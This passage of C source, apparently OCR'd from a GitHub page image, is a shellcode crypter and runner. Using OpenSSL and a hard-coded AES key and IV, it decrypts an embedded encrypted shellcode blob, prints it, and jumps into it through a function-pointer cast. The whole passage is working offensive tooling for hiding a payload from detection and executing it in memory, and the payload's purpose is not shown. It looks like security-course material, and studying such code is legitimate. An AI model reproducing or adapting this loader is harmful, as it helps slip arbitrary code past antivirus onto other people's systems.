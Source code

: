~~~ c
}

//execute shellcode
void execute_shellcode(unsigned char *shellcode)
{
  printf("\n");
  int (*ret)() = (int(*)())shellcode;
  ret();
}

//main
int main (void)
{
  unsigned char decrypted[128]; //buffer for decrypted shellcode
  int decrypted_len, encrypted_len; //length of shellcode


  //128 bit AES initialization vector used to encrypt the shellcode
  unsigned char iv[] = "KSB1FebW397VI5uG";

  //256 bit AES key used to encrypt the shellcode
  unsigned char key[] = "PKdhtXMmr18n2L9K88eMlGn7CcctT9Rw";

  //encrypted shellcode
  unsigned char encrypted[] = "\xb0\x69\x09\xde\xc5\x63\x0e\x69\x5c\xd1\x7e\x34\xf3\xc1\x7b\x28\x6c\x47\x48\xd4\x5b\x83\x82\x6b\x4b\xb5\x52\x47\xb1\x3e\xf2\x70";

  //length of encrypted shellcode
  encrypted_len = strlen(encrypted);

  printf("[+] Encrypted Shellcode (%d bytes):\n", (encrypted_len));
  print_shellcode(encrypted);

  printf("[+] AES 128 bit IV: %s\n", (iv));
  printf("[+] AES 256 bit Key: %s\n", (key));

  //initialize the library
  ERR_load_crypto_strings();
  OpenSSL_add_all_algorithms();
  OPENSSL_config(NULL);

  //decrypt the shellcode
  decrypted_len = decrypt(encrypted, encrypted_len, key, iv, decrypted);

  //null terminate the shellcode for printing
  decrypted[decrypted_len] = '\0';

  printf("[+] Decrypted Shellcode (%d bytes):\n", (decrypted_len));
  print_shellcode(decrypted);

  //clean up
  EVP_cleanup();
  ERR_free_strings();

  printf("[+] Executing Shellcode:\n");
  //execute shellcode
  execute_shellcode(decrypted);

  return 0;
}

//error handler
void handleErrors(void)
~~~